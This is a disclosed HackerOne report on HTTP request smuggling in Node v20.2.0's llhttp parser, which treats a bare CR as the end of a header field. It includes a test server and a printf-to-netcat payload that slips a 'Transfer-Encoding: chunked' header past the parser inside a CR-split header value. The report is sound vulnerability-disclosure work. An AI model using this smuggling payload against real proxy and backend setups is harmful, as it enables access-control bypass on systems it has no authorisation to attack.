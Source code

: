 # HTTP Request Smuggling via Empty headers separated by CR

## Report Details
- **Report ID**: 2032842
- **URL**: https://hackerone.com/reports/2032842
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2023-06-21T02:33:13.723Z
- **Disclosed**: 2023-08-28T14:53:27.090Z

## Reporter
- **Username**: yadhukrishnam
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: ibb

## Vulnerability Information
This report was originally submitted here: https://hackerone.com/reports/2001873

---


**Summary:** 
The `llhttp` parser in the http module in Node v20.2.0 does not strictly use the CRLF sequence to delimit HTTP requests. This can lead to HTTP Request Smuggling (HRS).

**Description:** 
The CR character (without LF) is sufficient to delimit HTTP header fields in the llhttp parser. According to RFC7230 section 3, only the CRLF sequence should delimit each header-field.

## Steps To Reproduce:

*Server:*
```javascript
const http = require("http");
http
  .createServer((request, response) => {
    let body = [];
    request
      .on("error", (err) => {
        response.end("Request Error: " + err);
      })
      .on("data", (chunk) => {
        body.push(chunk);
      })
      .on("end", () => {
        body = Buffer.concat(body).toString();
        // log the body to stdout to catch the smuggled request
        console.log("Response");
        console.log(request.headers);
        console.log(body);
        console.log("---");
        response.on("error", (err) => {
          // log the body to stdout to catch the smuggled request
          response.end("Response Error: " + err);
        });
        response.end(
          "Body length: " + body.length.toString() + " Body: " + body
        );
      });
  })
  .listen(5000);
```
*Payload:*
1. Execute the below command.
```shell
printf "POST / HTTP/1.1\r\n"\
             "Host: localhost:5000\r\n"\
             "X-Abc:\rxTransfer-Encoding: chunked\r\n"\
             "\r\n"\
             "1\r\n"\
             "A\r\n"\
             "0\r\n"\
             "\r\n" | nc localhost 5000
```
2. Note that the value of `X-Abc` header in the request is - `[\r]xTransfer-Encoding: chunked[\r\n]`
3. The llhttp library parses this as a `Transfer-Encoding: chunked` header.
```
Response
{ host: 'localhost:5000', 'x-abc': '', 'transfer-encoding': 'chunked' }
A
---
```
*Note:*
1. The next character to `\r` is missing in the parsed header name.
2.  This test case is missing from https://github.com/nodejs/llhttp/blob/main/test/request/invalid.md.
A frontend proxy that does not consider `\r` as termination of an HTTP header value, could forward this to a backend, causing an HRS. 

## Supporting Material/References:
This report is similar to:
  * https://hackerone.com/reports/1888760

## Impact

HTTP Request Smuggling can lead to Access Control Bypass

## Attachments
No attachments
